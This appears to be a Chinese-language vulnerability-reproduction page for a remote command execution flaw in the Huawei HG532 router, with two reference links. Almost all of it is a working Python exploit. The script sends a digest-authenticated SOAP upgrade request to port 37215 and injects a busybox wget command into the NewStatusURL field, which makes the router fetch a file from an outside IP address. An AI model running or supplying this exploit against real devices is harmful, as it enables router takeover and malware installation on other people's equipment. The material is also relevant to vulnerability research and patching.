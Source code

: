 # 华为 HG532 远程命令执行漏洞


## 漏洞环境

## 漏洞复现

```py
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 98.168.241.128 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://198.168.241.129:37215/ctrlt/DeviceUpgrade_1', headers=headers, data=data)
```

## 参考链接

- https://research.checkpoint.com/2017/good-zero-day-skiddie/
- https://www.freebuf.com/vuls/160040.html
